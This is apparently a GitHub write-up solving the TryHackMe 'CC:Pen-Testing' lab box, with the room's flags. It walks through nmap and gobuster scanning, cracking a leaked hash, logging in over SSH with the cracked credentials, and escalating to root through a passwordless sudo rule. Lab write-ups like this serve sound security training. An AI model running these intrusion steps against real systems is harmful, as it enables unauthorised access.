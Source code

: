 # CC:Pen-Testing
Solve the final exam of the CC:Pen-Testing box in TryHackMe.  
The goal is to exploit the target machine and get the content of user.txt and root.txt.

## Solution
ip of the target host: 10.10.193.79

Reconnaissance: scan the target machine to enumerate ports and services.
```shell
nmap -sV 10.10.193.79
```
It gives:
```shell
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

Meanwhile run gobuster to find hidden directories.
```shell
gobuster dir -u http://10.10.193.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 64
```
We found the hidden diretory /secret. The url http://10.10.193.79/secret/ yield a blank page.  
We can bruteforce the directory /secret to find hidden files:
```shell
gobuster dir -u http://10.10.193.79/secret/ -w /usr/share/dirbus ter/wordlists/directory-list-2.3-medium.txt -t 64 -x txt,php,html,css,js
```
We managed to find the file secret.txt, containing a username and a hash:  
nyan:046385855FC9580393853D8E81F240B66FE9A7B8

Now we can try to break the hash to find the password of nyan. Hopefully is the same password used to login through ssh.  
In order to break the hash we can use the CrackStation (https://crackstation.net/).  
Decrypting the hash we get nyan.

We can now use the retrieved credentials to try to get access to the machine using ssh:
```shell
ssh nyan@10.10.193.79
```
It worked !

```shell
nyan@ubuntu:~$ ls
user.txt
nyan@ubuntu:~$ cat user.txt 
supernootnoot
```
The content of user.txt is supernootnoot.

Final step is to find the file root.txt. The name of the file suggests that the flag is only available under root.  
We download LinEnum (https://github.com/rebootuser/LinEnum), useful tool which scans the system to find ways to escalate the privileges. In the scan report, we see the following:
```shell
[+] We can sudo without supplying a password!                                                                     
Matching Defaults entries for nyan on ubuntu:                                                                     
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/
bin                                                                                                               
                                                                                                                  
User nyan may run the following commands on ubuntu:                                                               
    (root) NOPASSWD: /bin/su
```

Therefore we can become root using: 
```shell
sudo /bin/su
``` 

In the home directory of root we can find the root.txt file.
```shell
root@ubuntu:~# ls
root.txt
root@ubuntu:~# cat root.txt 
congratulations!!!!
```

The content of root.txt is congratulations!!!



